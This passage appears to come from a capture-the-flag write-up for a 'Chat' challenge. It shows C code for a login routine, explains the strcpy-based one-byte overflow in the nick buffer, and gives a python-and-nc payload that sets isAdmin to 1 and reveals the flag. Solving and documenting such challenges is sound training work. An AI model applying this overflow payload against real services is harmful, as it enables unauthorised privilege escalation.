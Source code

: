 ```c
        printf("\n\n");

        switch (choice){
            case 1: start_chat(user); break;
            case 2: print_user(user); break;
            // ...
        }
        choice = 0;
    }
}

void welcome(char *some_info){
    char token[10];
    char nick[12] = "";
    printf("Hello, guest!\n");
    printf("Enter your token: ");
    scanf("%9s", token);

    // ...

    printf("Enter your nick: ");
    scanf("%11s", nick);

    struct user *user = create_user(nick, token);

    // ...
    main_menu(user);
}

int main(int argc, char* argv[]){
    // ...
    welcome(argv[1]);
    // ...
}
```

Since the unsecure `strcpy` was used to move the nick's buffer around, it was vulnerable to overflows - _the token had to be kept intact to identify different triggers of the **Chat** series_:

```no-highlight
$ (python2 -c 'print "6MsmrUmPi"+"A"*10+"\x01"'; cat) | nc XXX.XXXXXXXXX.XX NNNN

Hello, guest!
Enter your token: Enter your nick:
Welcome to our chat!

Select command:
    1) Join chat
    2) See user information
    3) Quit
```
```no-highlight
>> 2

User info:
   Nick: 	AAAAAAAAAA
   His token:	6MsmrUmPi
   isAdmin: 	1
TyumenCTF{0ne_byt3_overf1ow_D33ORd}
```
{: .spoiler}
